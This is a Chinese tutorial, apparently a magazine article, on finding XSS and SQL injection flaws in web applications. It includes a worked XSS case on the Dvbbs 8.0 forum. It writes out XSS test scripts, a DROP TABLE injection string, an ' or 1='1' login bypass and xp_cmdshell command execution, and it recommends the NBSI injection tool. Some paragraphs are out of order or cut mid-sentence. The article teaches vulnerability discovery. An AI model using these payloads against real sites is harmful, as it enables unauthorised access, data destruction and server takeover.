有了源代码，我们接下来要做的就是利用一个工具来打开它们，最好这个工具能帮助我们自动分析程序的结构或者显示得比较人性化一些。对于Web程序来讲，少则十几个文件，多则上千个文件，单凭手工打开这些文件就会使人失去耐心。前面“搭建一个测试平台”一文中，我给大家推荐了Dreamweaver这款软件，现在我们就要用到它了。安装好后运行Dreamweaver，选择菜单中的“Site->New Site”，在弹出窗口中连续两次选择“Next”。

在第三个窗口中我们注意这句话“Where on your computer do you want to store your files?”，意思是你将在哪里放置你的文件，我们一定将其选择到要分析的源代码文件夹目录。例如要分析的源代码在F盘“我要分析的代码”文件夹下，那就直接填入“F:\我要分析的代码\”。好了，继续下一步，又出来一个文件夹选择窗口，这里还是填入目标代码文件夹路径“F:\我要分析的代码\”，然后一直下一步到完成。此时你会发现在Dreamweaver右侧的栏目中，显示出了你所要分析的全部代码以及子文件夹。

随意点击一个文件，Dreamweaver会在左侧的窗口中用不同的颜色显示文件内容，这里我们不关心这些颜色的区分，而是开始下一步的工作——寻找变量。为什么要寻找变量？什么是变量？对于所有Web程序来讲，任何开发这些程序的语言都有自己的语法规则，其中那些用来传递数据的代表就是变量，而Web程序中所有被用来与外界交互的数据都是要通过变量来发挥作用的。在XSS漏洞攻击中，我们进行XSS攻击的那些脚本语句就是通过变量提交给程序，再由程序进行解析的。所以我们要知道程序究竟从外部获得了哪些数据，究竟是哪个变量来传递这些数据到程序内部，这样才能找到可以被我们进行XSS攻击的地方。

注意，这里我们不是把全部的变量找出来，而是找寻那些用来传递外部数据到程序内部的变量，这些才是关键所在。如果一个Web应用程序不需要从外部获取任何数据，那么我们就根本不可能再进行什么XSS漏洞攻击了。为了区分一般的变量，我们暂时称这种传递外部数据的变量为“关键变量”。那么如何寻找这些关键变量呢？对于不同的Web程序而言，其开发语言决定关键变量的寻找方式，这里以主要的几种Web开发语言下的关键变量寻找方法给读者一一做以介绍。

### A）ASP&ASP.NET

ASP以及ASP.NET都是微软开发的Web应用程序语言，前者的简单性使得ASP语言一度成为开发网站程序的首选。时至今日我们今天看到的大部分网站还是用这种语言编写的。ASP.NET是一种新的框架，比起ASP有了本质的变化，尤其在程序结构、开发模式以及安全方面有了长足进步。但是就其关键变量获取方面而言，两者却类似，都利用了“Request”对象，这个对象有3个重要的方法，分别是QueryString、Form、Params，就是这3个方法使得程序能从外部获取数据，然后进行操作。这3个属性在使用时的参数就是我们要找的关键变量，请看下面这段ASP代码。

```asp
<%
strUserCode = Trim(Request.QueryString("CODE"))
strUser     = Trim(Request.Form("USER"))
strID       = Trim(Request("ID"))
%>
```

这3条语句分别显示了上述Request对象的3个重要方法的使用，第一个是Request.QueryString方法的使用，括号中的CODE就是一个关键变量名称。Form属性获取以“Post”形式提交的数据，Params则无论“Get”还是“Post”提交的数据都可以获取。这个细节对于XSS漏洞发掘影响不大，但在利用时要注意提交方式。

现在只要我们找到Request对象，也就可以找到存在于ASP以及ASP.NET开发的Web程序中的关键变量了。需要说明ASP.NET由于输出编码等安全机制，较难直接发现XSS利用点，但并不代表没有漏洞。

#### B）PHP

PHP是一种功能强大且开发友好的服务器端脚本语言，广泛用于UNIX、Linux以及Windows。PHP语言中获取外部数据的方法主要集中于HTTP_GET_VARS、HTTP_POST_VARS和HTTP_COOKIE_VARS这3个方法上。

#### C）JSP

JSP是基于Java的Web应用开发技术，可以创建跨平台的动态Web程序。JSP获取外界参数与ASP相同，也是通过Request对象，因此可在JSP程序中直接查找Request对象来判断关键变量。

可利用查找功能定位关键变量，例如在ASP程序中查找“request”关键字。为后续测试，需要将找到的关键变量与其所在文件对应起来（如first.asp中的f、f1、f2，second.asp中的s、s1、s2）。


接下来要对关键变量做区分，排除虽是关键变量但无法用于XSS利用的引用。例如在first.asp中若使用`CLng(Request.QueryString("f"))`，由于CLng会将参数转换为Long整数，脚本载荷会被数字化而无法执行，应视为不可利用点。滤性质的外部变量引用给排除掉。表1中列出的是ASP语言下的过滤函数，你可以查阅它们。

如图3所示。到这里你已经做完了这个方法中最为繁琐的一个环节，下面的工作将变得很简单，你甚至可以编写一个程序来自动完成测试，但在这之前，我们还是静下心来学习一下这个方法的原理，因为掌握方法远比掌握一个工具更有意义。

当然，你还可能遇到一些不是语言本身的过滤函数，而是编写者自己编写的过滤函数，其实这并不重要，你只要再去看看这个自行编写的过滤函数中使用了哪些语言本身的过滤函数，如果存在表格中的那些函数，就把被这个函数过滤的关键变量扔掉，因为它是非法的，反之亦然。除去过滤函数，我们还要注意排除加密函数，尤其是函数htmlencode加密的，凡是被这个函数加密编码后的变量也是不能被XSS利用。接下来要再做一个区分，还记得前面讲的“Get”、“Post”吗？我们这里再复习一下，“Get”形式提交的数据是那些以字符串形式附加在网址后面的数据，而以“Post”形式提交的数据是隐藏在HTTP表头里的，这两种不同的提交数据方式，使得我们不能不进行区分，不然一个本来是“Get”触发的漏洞，被“Post”方法测试了，那结果就是你失去了发现这个漏洞的机会。

其实这里最关键的是区分开程序使用的获取关键变量的方式。还是拿前面的例子举例，假设first.asp中f1变量的获取是这样的：Request.QueryString("f1")，记为“f1 Get”；而f2变量的获取是这样：Request.Form("f2")，记为“f2 Post”，很简单不是吗？现在看看前面写出来的那个目录，它现在应该是这个样子了。

前面我们获得那些关键变量的目的，是为了测试这些变量传进程序的数据有没有可能被利用成XSS。虽然找出了我们需要测试的那些关键变量，但我们还要明确的是我们测试时使用的测试语句。经典的XSS测试语句一般就是`<script>alert('test')</script>`（去掉两边的双引号），这段语句的意思是弹出一个写有test的警告窗口。这个对于XSS本身来说没什么太大的危害，但却足以证明漏洞的存在性，后面怎么扩展这个语句就是漏洞利用的事情了。只要我们的这个测试语句可能被目标程序接受并执行，那么就能肯定目标程序存在XSS漏洞。我们要做的就是将这个测试语句传递给那些关键变量，让它们再传入程序内部，然后观察结果，进而知道有没有漏洞。这样做的好处就是节省人力，不需要一句一句读懂程序的流程，程序对你来说是透明的，你关心的只是结果。有了测试语句，接着就要把你要测试的程序放入服务器环境中，也就是发布到IIS或者Apache里，这样才能模拟网络环境进行漏洞发掘测试。对照刚才做的那张关键变量目录，你必须要按照关键变量的要求是Get型的还是Post型的，把它们赋值成测试语句，然后提交给目标程序，接受返回结果。如果测试语句被程序原封不动地返回，那么就证明程序存在严重的XSS漏洞。这里对于Get型的关键变量，可以不需要动手编程来提交测试，浏览器可以帮助你完成。

```html
<script>alert('test')</script>
```

```asp
Request.QueryString("f1")
Request.Form("f2")
```

| 函数名 | 使用格式 | 功能 |
|---|---|---|
| CBool | CBool(xx) | 将xx转换为Boolean类型 |
| CByte | CByte(xx) | 将xx转换为Byte类型 |
| CChar | CChar(xx) | 将xx转换为Char类型 |
| CDate | CDate(xx) | 将xx转换为Date类型 |
| CDbl | CDbl(xx) | 将xx转换为Double类型 |
| CDec | CDec(xx) | 将xx转换为Decimal类型 |
| CInt | CInt(xx) | 将xx转换为Integer类型 |
| CLng | CLng(xx) | 将xx转换为Long类型 |
| CObj | CObj(xx) | 将xx转换为Object类型 |
| CShort | CShort(xx) | 将xx转换为Short类型 |
| CSng | CSng(xx) | 将xx转换为Single类型 |
| Val | Val(xx) | 将xx转换为Integer或者Double |
| Replace | Replace(xx,yy,zz) | 将xx中的yy替换成zz |

表1


图3

这项测试工作。例如针对 `first.asp` 的 `f1` 变量，你可以在浏览器地址栏里这样测试：`http://127.0.0.1/first.asp?f1=<script>alert('test')</script>`，回车后你会发现浏览器弹出了一个写有 test 的警告窗口，这就证明 `first.asp` 程序存在 XSS 漏洞，其影响变量就是 `f1`。而对于 Post 型的变量，最好的方式就是做一个网页，这个网页内容类似这样：

```html
<form action="http://127.0.0.1/first.asp" method="post">
  <input name="f2" type="text"></input>
  <input type="submit"></input>
</form>
```

较充实的测试语句库，这样会大大减小漏洞错失的几率。基于源代码检查的变量提交测试方法还有一个不全面的地方，就是要考虑程序的逻辑性。虽然我们找出了每个文件中要使用的关键变量，但有时在提交这些变量的时候你必须满足一定条件，这时你提交的变量才会被程序传递到某个能被利用的地方，例如这样一段代码：

```vb
con=request("f1")
if not con then
    response.write request("f2")
end if
```

其中 `action` 后面是要测试的目标程序，`method` 是控制数据使用 post 提交方式，用浏览器打开这个网页，然后在空白处填入测试语句，如图 4 所示，点击“提交查询内容”按钮，你会发现浏览器很快就弹出了一个警告窗口，这样我们就能判断目标程序存在 XSS 漏洞了。

这段代码开始是获取一个外部数据将其传递给 `con`，然后判断这个 `con` 是不是为空，即没有任何数据。如果不是空的，那么就直接返回获取的关键变量 `f2` 的值。现在我们分析一下，如果此时我们提交的 `f1` 变量值不为空，我们接着提交 `f2` 为一个 XSS 测试语句，那么一定会测试成功，因为 `f2` 被直接返回了；但此时如果我们没有提交 `f1` 变量或者提交了但是空的，那么我们将执行不了 `response.write request("f2")`，程序绕过这段代码继续向下执行了，没有触发这个漏洞。


图 4

现在小结一下这种基于源代码检查变量提交的测试方法。正如你所看到的，这种方法首先建立在有源代码的基础之上，然后是一个较为科学的分类区分，以及一个简单有效的测试过程，我们用最合理的组合方法，避免了看源代码的痛苦过程，用最短的时间来发掘庞大的 Web 程序中的 XSS 漏洞，甚至可以检查到那些较为隐蔽的关键变量是不是可以被 XSS 漏洞利用。但这种方法也有不全面的地方，首先是测试语句的选择，因为很多情况下，根据程序构造的不同，可能你提交一个 `alert('k')</script>` 的语句就会触发一个 XSS 漏洞，因为程序可能是这样写的：`response.write "<script>"&f1...`。此时因为程序已经返回一个 `<script>` 标签，我们只需要提交 `alert('k')</script>`，这样程序返回的值就自动组合成了 `<script>alert('test')</script>`，从而触发了漏洞；但是如果我们还是提交 `<script>alert('test')</script>` 给程序，那么就变成了 `<script><script>alert('test')</script>`，这样就会产生一个语法错误，从而失去了发现漏洞的机会。因此，你最好准备一个比较充实的测试语句库。

试想一下，如果这个 `con` 变量不是我们可以直接控制的，那岂不是更难以发掘漏洞了吗？所以在使用基于源代码检查的变量提交测试方法的时候，不但要考虑关键变量的组合提交，更可能要面对程序的逻辑限制，因此，为了弥补这种方法的不足，我们进而来学习第二种发掘方法——基于页面表单分析的测试检查技术。

### 2）基于页面表单分析的测试技术

基于页面表单分析的测试检查技术，是一种甚至不需要你拥有目标程序的任何代码，只要目标程序可以被浏览器访问即可，就像我们没有新浪网的源代码，但照样可以发掘它的 XSS 漏洞的方法一样。基于页面表单分析的测试检查技术是建立在这样一个思维模式下，正如前面 XSS 漏洞基础中谈到的那样，XSS 漏洞的出现主要是因为给了用户一个可以输入非法代码的机会导致的，而这个机会往往指的就是可以用来跟用户交流信息的“页面表单”。“页面表单”就是我们常常在网页中看见的那种，你可以填入文字或者数字等信息的地方。

而页面表单在这里发挥了极其关键的作用。在展开讲解此方法前，我们先来看看页面表单的组织结构。前面我们说过了，我们现在的这个发掘技术是可以不依赖于源代码的，只要我们能通过浏览器正常访问就行。以百度为例，我们首先使用 IE 打开百度，出现在浏览器中间位置的那个空白条就是一个页面表单，这是表单在视觉上的表现，我们再看看表单在代码层面上的表现，代码如下。

```html
<form action="http://127.0.0.1/first.asp" method="post">
  <input name="f2" type="text"></input>
  <input type="submit"></input>
</form>
```

上面的代码与我们上面看到的完全一样，无论什么样的表单在代码上的表现就是 `form` 标识。其实，页面表单就是将关键变量隐藏在网页后面，用户只需要按照要求填写信息并提交表单，就可以完成与 Web 应用程序的数据交换。注意这里，Web 程序现在既然要求我们填写这些关键变量，那么这些关键变量一定是符合程序逻辑实现的，这就避免了前面我们在使用第一种方法时碰到的那种逻辑限制的弊端。我们现在看到的关键变量不但是完全合法的，而且这些通过表单提交的关键变量，恰好也是一个合法的组合，这就更避免了我们提交单一的关键变量或者某几个变量时，因为变量不够而导致无法正常发掘漏洞。

明确表单的结构和意义后，我们现在就可以大胆地将要测试的目标程序通过浏览器访问，然后将其中有页面表单显示的网页保存成 HTML 文件，打开它，删除其中那些具有干扰性的代码，留下表单代码，这里就是找到 `form` 标签，然后找到与其闭合的 `/form`，将其中的代码保留，这个标签以外的代码删除。当然，如果你发现网页中不止一个 `form`，那么就要循环查找这些地方，把它们保留下来，删除其他干扰代码。光是简单的删除还不够，你还要进行一下修补。因为一般保存下来的网页文件，在 form 提交的地址处，也就是 `action` 后的地址，往往是不完整的地址，类似 `<form action=./ceshi.asp`，此时你需要将这个地址弥补完整，例如你要测试的目标程序的域名是 `www.baidu.com`，现在你就要修改上面的代码为这样：`<form action=http://www.baidu.com/ceshi.asp`。其实这个修改就是将目标程序所在的 URL 地址保持完整，不然将会出现找不到网页的情况。保存修改后的网页，用浏览器打开它。现在你会发现你所要测试的关键变量清晰地展现在你的面前，不像开始时那样混乱。现在只需要将你的测试代码依次填入这些地方，然后提交，观察你的浏览器结果就可以了。

在使用这种测试技术时，要注意有些情况下必须先满足 Web 程序的一定客观条件，才能进一步使用表单，这在网站论坛中常常碰到。就是你先要登录论坛，才能在里面使用表单发帖，那么此时你要做的就是观察目标程序是不是有保留 Cookie 信息的选项，如果有你最好登录一次目标程序，并且选择尽可能长的时间保留你的 Cookie 信息，因为这些目标程序一般是根据 Cookie 来记录你的登录情况的。还有要注意的就是，最好在提交表单的地方注意一下你要填写的信息格式，例如在一个注册用户的表单里，用户生日一般格式为：“xxxx-xx-xx”，此时你直接放入你的测试语句 `<script>alert("test")</script>` 就会引发一个格式错误，所以最好先排除那些有严格要求的地方，再去进行测试。

基于页面表单分析的测试检查技术，是非常适合对目标程序没有原始代码的情况下进行漏洞发掘的方法。由于其测试比较符合程序逻辑，往往减少了错误测试的几率，这种技术也可以通过编程来实现自动化测试，但更适合手工测试。

### 3）利用工具来发掘 XSS 漏洞

前面我们说的两种方法都是比较适合手工测试的，它们完全依靠了 XSS 漏洞形成的原因作为检测的方法，当然你完全可以把它们编写成为一个程序，来大大提高我们测试发掘 XSS 漏洞的效率。

但现在看起来，随着 Web 2.0 技术的全面使用，XSS 漏洞开始向全新的领域发展，XSS 漏洞不再简单地只是去获得少量数据而让人觉得是最没价值的漏洞，DOM 型的 XSS 漏洞可以让我们获得更多的内容，甚至去编写相应的蠕虫。要想去发现这些高级的 XSS 漏洞，我们的传统方法当然是可以使用的，但有时我们必须使用一些工具来帮助我们研究，这些内容比较冗长，我不在这里赘述，有兴趣的朋友可以直接在我的网站 `http://www.blackunion.cn` 留言给我来讨论。

### 4）动网 8.0 XSS 漏洞发掘实例

动网论坛是国内较早出现的一种 ASP 论坛程序，在国内知名度很高，许多大型的娱乐网都使用动网论坛作为主站的交流论坛。由于版本升级较多，从开始的版本到现在的 8.0 版，动网论坛的代码结构变得比较复杂，并且由于动网论坛的旧版本出现过很多安全漏洞，诸如 2004 年的上传任意文件漏洞以及之后的几个严重的注入漏洞，使得动网论坛的开发者对论坛的升级改造变化很大，加入了许多安全防范的检查代码。那么最新的 8.0 版本的动网论坛是不是就不存在漏洞了呢？由于这个论坛程序的代码比较大，这里我们首先选择使用基于页面表单的检查技术来测试一下动网 8.0 是否存在 XSS 漏洞。

下载安装动网 8.0 论坛以后，将其发布在服务器环境中，我们这里的测试环境是 IIS5.0 + Windows XP。我们前面讲过，基于页面表单的检查技术往往在很多时候要先满足 Web 程序的一定客观条件，才能够使用一些程序提供的表单，而论坛程序就属于这一种 Web 应用程序。所以我们在测试论坛型的 Web 程序时最好先进行用户注册，在这种情况下再寻找可以利用的页面表单。使用浏览器访问论坛，注册一个用户名为 testXSS、密码为 123456 的用户，使用该用户登录论坛。

动网论坛的表单是非常多的，发帖子的地方、回复帖子的地方、发短信的地方等等，这个时候我们应该如何下手呢？因为我们要发掘的漏洞类型是 XSS 漏洞，XSS 是一种利用恶意代码插入正常网页来获得执行权的漏洞，那么这个正常网页当然是需要被攻击者会主动访问的，而且访问的人越多越好。按照这个逻辑，我们来将动网的所有页面进行一个排序，最容易让人访问的页面是显示论坛帖子以及回帖的地方，接着是论坛短信，还有一个地方就是反映个人信息的地方，因为有时论坛的用户之间为了相互了解都会去查看他人的个人资料。有了这个顺序，我们首先要分析的页面就是论坛发帖的表单，如图 5 所示。

论坛发表帖子的表单中，我们可以输入数据的地方有主题标题、金币数量、文件上传、内容等。在这些表单中，我们可以看出除了“文件上传”这个表单不太好控制以外，其他的表单项都是可以直接输入内容的。现在，我们就可以对这些可以直接输入内容的地方放入 XSS 测试语句 `<script>alert('XSS')</script>`。首先被放入测试语句的地方是“主题标题”，其他地方随便填入一些内容，点击“发表”按钮。


图 5

很快，程序保存了我们刚才输入的内容，现在选择查看我们刚才发的帖子。不论我们怎样刷新我们的帖子，浏览器都没有弹出任何窗口，查看显示我们帖子网页的源代码，发现我们刚才输入的 XSS 测试语句被动网程序过滤成了：`&lt;script&gt;alert('xss')&lt;/script&gt;`，其中左括号被换成了 `&lt;`，这样代码虽然可以正常显示，但却不能被 XSS 利用了。是不是说我们刚才的测试失败了呢？

现在请注意，动网论坛为了方便一些网速较慢，或者使用手机上网的用户访问论坛，将论坛的显示模式多增加了两种样式，在论坛版面中间靠右侧你会发现 XHTML 和 XSLT 这两种显示模式，它们会将论坛中的图片屏蔽，以减少论坛内容流量，提高论坛访问速度。但是，无论是 XHTML 还是 XSLT 显示格式，都是基于网页标准的，所以如果在这些显示格式中加入 XSS 语句依然是可以被跨站利用的。随便点击其中的一种显示模式，如图 6 所示。


图 6

很明显，我们刚才输入的那条 XSS 测试语句被执行了！虽然说动网对自己的常规显示模式进行了对 XSS 攻击的防范，但却忽略了精简模式中的 XSS 攻击，使得我们成功地发掘出了一个 XSS 漏洞。

前置知识：无

关键词：脚本、注入、漏洞发掘

## 黑客漏洞发掘技术内容系列之四：

## SQL Injection

## 注入漏洞的发掘方法

文／图 炎无言


“注入漏洞”，听起来总让人想起医院里的注射器，其实这种漏洞的原理正像注射器的作用。由于 Web 应用程序在使用中，为了管理庞大的数据信息，例如用户的登录名称、密码，网站的公告、文章、图片等，都会使用到数据库。数据库可以方便网站管理者对所有的网站数据进行统一的存储、分类组织，便于查询更新。用户在访问网站时，Web 应用程序可以自动通过对数据库的查询，将所获得的数据信息按照一定的格式显现给用户，同时用户也可以通过提交一些交互式的表单，从而使 Web 应用程序按照用户想要的信息进行查询，返回给用户想要的信息。对于 Web 应用程序的这种数据库操作，我们先来看一段代码。

```asp
strKeyword = Request.QueryString["keyword"];
sqlQuery = "SELECT * FROM Aritcles WHERE Keywords LIKE '%" + strKeyword + "%'";
```

这是一段由 ASP 语言编写的应用程序代码，主要目的是按照用户提交的关键字对网站文章进行搜索。通过在 XSS 漏洞发掘技术中的学习，我们知道 `Request.QueryString` 方法使用 Get 形式来获取外部数据，也就是说这些外部数据是直接跟在网址后面的，所以通过浏览器我们可以这样来提交想要查询的关键字：`http://www.test.com/search.asp?keyword=hack`，这里“hack”这个关键字就会被传递给 `keyword` 关键变量，这时候我们来看看代码的执行情况，`keyword` 获得数据“hack”后，赋值给 `strKeyword` 变量，然后 `strKeyword` 变量被放入查询语句，此时的查询语句表现为“SELECT * FROM Aritcles WHERE Keywords LIKE '%hack%'”。

这个查询语句的意思就是从数据库 `Aritcles` 表中查询出所有包含“hack”这个关键字的文章。这里我们注意到“hack”这个单词是我们可以随意修改的，于是我们决定修改一下“hack”，把它变成“hack';DROP%20TABLE%20Aritcles;--”，注意这里的 `%20` 是由于在 Get 形式下，所有字符会被编码，“%20”就是空格的 URL 编码。现在再来看看 `search.asp` 会怎样处理这个外部关键字数据。首先，“hack';DROP%20TABLE%20Aritcles;--”被赋值给 `strKeyword` 变量，`strKeyword` 变量解码后进入查询语句，此时的查询语句被换成了“SELECT * FROM Aritcles WHERE Keywords LIKE '%hack%';DROP TABLE Aritcles;--”。我们知道，`DROP TABLE` 语句在数据库操作中指的是删除一个指定的表，现在来分析上面这条查询语句。我们将“SELECT * FROM Aritcles WHERE Keywords LIKE '%hack%';DROP TABLE Aritcles;--”以中间的分号为标志分成两个部分。先看第一部分“SELECT * FROM Aritcles WHERE Keywords LIKE '%hack%'”，这是一个完整的数据库查询语句，查询的结果就是所有包含 hack 关键字的文章；接着看第二部分，由于在微软的数据库 SQL SERVER 环境中，支持多命令语句执行，这些数据库操作的命令语句都是由分号进行分隔后依次执行的，这样在我们这里，第二部分语句中刚开始就是一个分号，这样就将这句查询语句隔成两个段，第一段是我们的第一部分，后面的一段就是我们的第二部分，只要第二部分的命令语句合法，那么数据库 SQL SERVER 也会将其完全执行。这里“DROP TABLE Aritcles;--”是一个完全合法的命令语句，它最后面的分号的作用是将本段命令与下一段命令隔开，形成一个完整的命令语句，而最后的“--”符号则是 SQL SERVER 数据库特有的注释标识，数据库不执行任何指令。现在你会发现，当数据库 SQL SERVER 通过 ASP 代码接受到这段查询语句后，会先按照查询条件找出包含 hack 的文章，然后就会去执行一个删除 Aritcles 表的数据库命令，这是 Web 程序没有料想到的，因为 Web 程序本来的目的只是简单地从数据库中按照关键字来查询文章，但是由于我们修改了传递给它的关键变量值，导致数据库中的 Aritcles 表被非法删除。像这样通过控制传递给数据库操作语句的关键变量来获得恶意控制数据库、获得有用信息，从而来控制网站甚至主机服务器的漏洞，我们就称之为注入漏洞。

注入漏洞完全是利用了包含某种目的的 SQL 语句，通过关键变量插入到 Web 应用程序中正常的数据库操作语句中。Web 应用程序一旦发生注入漏洞，会引发一系列的安全隐患。对于任何一个网站来说，数据库存储着网站所有信息，Web 应用程序完全依赖数据库中的信息进行正常的运行。你一定访问过一些大型论坛，作为一个论坛程序，最关键的一个部分是对用户的合法性判断，也就是看访问它的用户是不是一个注册用户。这时候，论坛会要求访问它的用户输入用户名以及密码，然后论坛会根据用户输入的信息查询数据库，判断数据库中是否存在该用户，并且检查该用户的密码是不是与输入的密码一致，如果一致则承认用户是合法的，否则将给予非法提示。

我们来看一段常常出现在论坛程序中进行用户认证的代码：

```asp
(1) admin1 = trim(request("name"))
(2) password1 = trim(request("password"))
(3) Set rs = Server.CreateObject("ADODB.Recordset")
(4) sql = "select * from userlogin where name='"&admin1&"' and password='"&password1&"'"
(5) rs.Open sql,conn,1,1
(6) if rs.eof and rs.bof then
(7) response.write("<SCRIPT language=JavaScript>alert('用户名或密码不正确！');")
(8) response.write("javascript:history.go(-1)</SCRIPT>")
(9) response.end
(10) else
(11) session("name")=rs("name")
(12) session("password")=rs("password")
(13) response.Redirect("default.asp")
(14) end if
```

代码的第一二行分别通过 Request 对象获得用户名以及密码，第三行是建立一个数据库操作集对象，第五行就是将用户名以及密码同时作为查询条件放入到 `userlogin` 表中进行查询，五到十四行根据查询结果，如果不存在该用户则弹出一个“用户名或密码不正确”的警告窗口，否则就设置 Session 对象，然后重定向网页到首页文件 `default.asp`。假设数据库中有一个用户名为“guest”、密码“123456”的账户，这个时候只要用户在论坛的登录表单中，用户名以及密码的地方相应输入“guest”以及“123456”，在论坛进行用户认证时，认证代码中的第四行变为：`sql = "select * from userlogin where name='guest' and password='123456'"`，这是一个合法的查询语句，所以用户能够正常登录论坛。

反之如果用户输入的用户名错误，或者即使用户名正确但密码错误，这样都登录不了论坛。看起来这是一个比较严格的认证代码，但是我现在将告诉你一种不需要知道任何用户信息就能登录论坛的方式。我们重新回到论坛登录的地方，在用户名的地方输入“' or 1='1'”，密码也填写成“' or 1='1'”，然后点击登录提交这个表单，你会发现你竟然成为了合法用户，论坛没有显示任何报警信息。这一切是怎么发生的呢？问题其实就出在论坛的认证代码上面，当我们提交表单后，代码通过 Request 对象获得我们提交的用户名以及密码后，直接将这些数据放入到第四行的查询语句中，现在这个查询语句成了这个样子：`sql = "select * from userlogin where name='' or 1='1' and password='' or 1='1'"`不用多说，这绝对是一个永远为真的代码。注意在这段代码的前面还有一个“or”，这代表着“1='1'”是作为一个条件选择语句放入数据库查询的。这样无论我们的查询语句中的用户名以及密码是否正确，都会因为 or 后面的“1='1'”代码，导致查询语句返回值永远为真，这样就使得我们绕过了这个看似“严格”的用户认证，获得了以合法用户登录论坛的权限。

由上面的两个例子我们可以看出，注入漏洞不但可以使网站信息被泄漏或者被任意修改，还给予了攻击者获得非法进入网站内部的权限，这样一旦网站被攻破，网站服务器的地位也就岌岌可危了。

注入漏洞除了这些比较常见的表现形式，还有另外一种表现形式。利用这种表现形式，攻击者可以通过被注入的 Web 应用程序获得在服务器上执行任意系统命令、读写任意文件，甚至是任意修改注册表的权限。在一些功能较为全面的数据库软件上，都会提供一些带有扩展性能的方法。像微软的 SQL Server，它就带有一种叫做“存储过程”的扩展功能。这些存储过程的作用就是将常用的或很复杂的工作，预先用 SQL 语句写好并用一个指定的名称存储起来，并且这样的语句是放在数据库中的；还可以根据条件执行不同 SQL 语句。那么以后需要叫数据库提供与已定义好的存储过程的功能相同的服务时，只需调用 execute 即可自动完成命令。其中有一些甚至具有了执行系统命令的功能，例如 SQL Server 的 xp_cmdshell 存储过程。

我们这里做一个演示，如果你安装了 SQL Server，打开“查询分析器”，在出现的空白窗口中键入 `master.dbo.xp_cmdshell 'dir c:\'`（其中不包括双引号），键入完毕后，按 F5 键，就会看到如图 1 所示的画面。

注意到图片中间靠下的这部分了吗？你会发现这不就是你 C 盘下的所有文件以及文件夹吗？我们通过传递给 SQL Server 的 xp_cmdshell 存储过程一个系统命令 `dir c:\`，SQL Server 为我们执行命令并返回了命令的运行结果。不仅仅是微软的 SQL Server 数据库有这样的功能，Oracle 数据库也存在同样功能的扩展过程。所以 Web 程序在进行开发时，如果涉及到系统的一些操作，完全就可以利用数据库的扩展功能来实现，这虽然方便了 Web 开发人员，但是也同时方便了漏洞攻击者。


图1

如果一个 Web 程序存在注入漏洞，那么攻击者就可以利用数据库的扩展功能来进一步获得控制服务器主机的目的，而不仅仅限于 Web 应用程序本身。

注入漏洞是不分语言的。无论是什么样的语言开发的 Web 应用程序，只要涉及到对数据库的操作都可能存在注入漏洞。虽然有时会因为编写语言的要求，或者 Web 服务器设置环境的不同，导致注入漏洞很难用常用的方法被利用，但是总可以找到突破的方法。例如在 PHP 环境下，网站管理员可以设置对来自外部的数据进行特殊字符转义，也就像对单引号之类的字符加上一个“\”。此时利用普通包含单引号的注入方式会导致注入失败，但是可以改变思路，对关键数据进行注入修改。例如在 update 更新语句中出现注入漏洞，我们可以试图利用 update 修改我们的论坛财富值，这也能达到注入利用的效果。

由此我们可以了解到，注入漏洞是一种危害性极大的漏洞，对于 Web 应用程序来说，可以说是“致命”的。注入漏洞常常被说为来自 80 端口最大的威胁。每一天都会有不计其数的 Web 应用程序出现注入漏洞，所以我们应该熟练掌握这种漏洞的发掘方法。

## 发掘注入漏洞的方法

在前面有了发掘 XSS 漏洞的基础上，下面的内容将显得比较简单易懂，我们把主要的注意力都放到具体的发掘方法上，以便大家集中精力进行学习。

由于注入漏洞最基本的原理是间接地进行了关于数据库的操作，那么如果我们测试注入漏洞时的语句是符合数据库查询要求的，那么 Web 应用程序返回的结果一定是正常的，不然就会直接引起数据库出错。例如在 IIS 环境下，一旦出现数据库出错现象，往往会返回给用户浏览器一个 500 号错误，这个错误号代表的意思就是程序内部出错。我们可以把 IE 中的“Internet 选项”高级中的“显示友好 HTTP 错误信息”前面的勾去掉，然后再次刷新出错的网页，就可以看到会有一个类似数据库内部出错的一段文字了。根据注入漏洞的直观表现以及引发的结果，我们可以将注入漏洞的发掘主要归纳为两种方法：一种就是典型的异同比较测试，一种就是基于代码的检查技术。

## 1）异同比较测试

在大多数要测试的站点中，我们并不知道其程序代码，靠任何传统的扫描器也不可能发现 SQL injection 漏洞，这时就要靠手工检测了。由于我们执行 SQL 语句要用到单引号、分号、逗号、冒号和“--”，所以我们就在可修改的 URL 后加上以上符号，或在表单中的文本框加上这些符号，通过页面返回信息判断是否存在 SQL injection 漏洞。异同比较测试方法的初衷就在于，它抓住了注入漏洞的精髓，就是利用查询语句在正常和出错下，Web 应用程序返回的数据不同，甚至是运行时间的长短不同，从而发现注入漏洞的存在。尤其是在一些没有良好关闭网站程序出错后服务器自动报错的情况下，使用这个方法来发现注入漏洞，简直就是轻而易举。这个方法的第一步其实可以按照发掘 XSS 漏洞那样，先找到关键变量或者页面表单，然后再使用测试语句。比如“1 and 1=1”以及“1 and 1=2”，这两个配对的测试语句，赋值给关键变量或者填写入表单之中，提交后观察两次返回的页面是不是有差异。注意这里我使用了一个词语“配对”，这意味着在使用异同比较测试法发掘注入漏洞的时候，最关键的是要注意你选择的测试语句必须是一个是合法的，另外一个是非法的。正如上面的用例显示，“1 and 1=1”这个语句中的“1=1”是一个永为真的表达式，而“1 and 1=2”中的“1=2”是一个永为假的表达式。只有测试语句不同，这样才能做一个比较来发现漏洞。

异同比较法最为关键的就是测试语句的选择，还是像 XSS 漏洞发掘那样，你需要一个尽可能多的测试语句库来进行发掘工作，然后把它编成程序，自动完成测试。利用这个原理做出来的攻击性工具很多，著名的 NBSI 就是一款表现出色的注入漏洞攻击性工具，我们可以把它用到我们的注入漏洞发掘中。

首先，将我们要发掘的目标程序发布到服务器上，也就是 IIS 或者 Apache 上，然后找到一些形如 `http://www.target.com/test.asp?id=XXX` 这样的可以利用 Get 形式提交外部数据的 URL 地址，将这样的地址填写到 NBSI 的“注入地址”一栏中，然后点击“检测”按钮。如果检测的目标程序存在注入漏洞，NBSI 就会根据异同比较法发现这些注入漏洞，并将检测结果显示在“分析结果”一栏里。NBSI 不但可以检测到漏洞，还可以利用测试语句的不同，来判断出目标程序使用的数据库。

有时，一些注入点不仅仅限于 `http://www.target.com/test.asp?id=XXX` 这样的形式，还有的存在于表单中，这时我们就要利用到 NBSI 的 post 提交功能。这款工具做得很细致，建议大家自己能多多练习。在发掘注入漏洞方面，可以说 NBSI 是最好的自动化工具。

